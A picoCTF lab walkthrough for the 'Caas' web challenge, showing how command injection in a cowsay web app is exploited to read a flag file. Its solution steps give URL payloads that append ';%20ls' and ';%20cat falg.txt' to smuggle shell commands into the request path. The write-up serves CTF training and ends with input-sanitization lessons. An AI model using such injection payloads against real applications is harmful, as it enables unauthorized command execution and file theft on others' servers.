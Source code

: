 # 🛡️PicoCTF Lab Walkthrough – Caas

## 📌 Challenge Info

* **Category**: Web Exploitation
* **Difficulty**: Easy

---

## 📝 Challenge Description

Exploit command injection in a cowsay application to retrieve the flag.

---

## 🔍 Initial Recon

* **Files provided**: None
* **Services/Ports**: Web app running cowsay
* **Hints given**: Command injection suspected

---

## 🛠️ Tools & Commands Used

| Tool / Command             | Purpose                        |
| -------------------------- | ------------------------------ |
| Browser / URL manipulation | Test command injection         |
| `ls`                       | List files on server           |
| `cat`                      | Read contents of the flag file |

---

## 🧠 Step-by-Step Solution

1. **Command Injection Testing**

   * Sent:

   ```
   https://caas.mars.picoctf.net/cowsay/hello;%20ls
   ```

   * Revealed the file: `falg.txt`

2. **Flag Retrieval**

   * Sent:

   ```
   https://caas.mars.picoctf.net/cowsay/hello;%20cat%20falg.txt
   ```

   * Successfully retrieved the flag.

---

## 🧾 Flag

picoCTF{\[flag]}

---

## 📚 Learning Outcomes

* Applications using system calls (like `exec`) are vulnerable to command injection if inputs aren’t sanitized.
* Even simple user input can be leveraged to execute arbitrary commands.
* Always validate and sanitize inputs when executing shell commands.

---
